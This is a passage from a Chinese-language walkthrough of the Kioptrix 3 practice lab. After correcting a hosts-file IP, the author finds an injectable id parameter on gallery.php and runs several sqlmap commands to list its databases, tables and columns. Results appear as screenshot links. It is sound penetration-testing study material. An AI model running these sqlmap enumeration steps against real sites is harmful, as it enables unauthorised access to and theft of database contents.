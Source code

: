 再次打开，我擦还是不行，经过我多番尝试，发现还是之前打的ip地址不对。。。。太粗心了。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712018.png" alt="image-20240127112652710" style="zoom:50%;" />

修改以后打开：

![image-20240127112748607](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712019.png)

正常打开了，这可真是一个大乌龙。。。。

到处翻翻，发现了一个传get参数的页面：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712020.png" alt="image-20240127113100700" style="zoom:50%;" />

试探一下：

![image-20240127113134337](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712021.png)

找到一个注入点，sqlmap试试：

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1
```

![image-20240127113436671](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712022.png)

继续查看一下数据库

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --dbs
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712023.png" alt="image-20240127113647827" style="zoom:50%;" />

查看一下数据库中的表有些啥：

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --tables -D gallery
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --tables -D information_schema
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --tables -D mysql
```

<div align="center"><img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271142810.png" style="zoom:33%;"></div> 

<div align="center"><img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271718352.png" style="zoom:25%;"></div> 

<div align="center"><img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271146986.png" style="zoom:33%;"></div> 

接着往下查询：

```shell
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --columns -D gallery
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712024.png" alt="image-20240127115401561" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712025.png" alt="image-20240127115416368" style="zoom:50%;" />

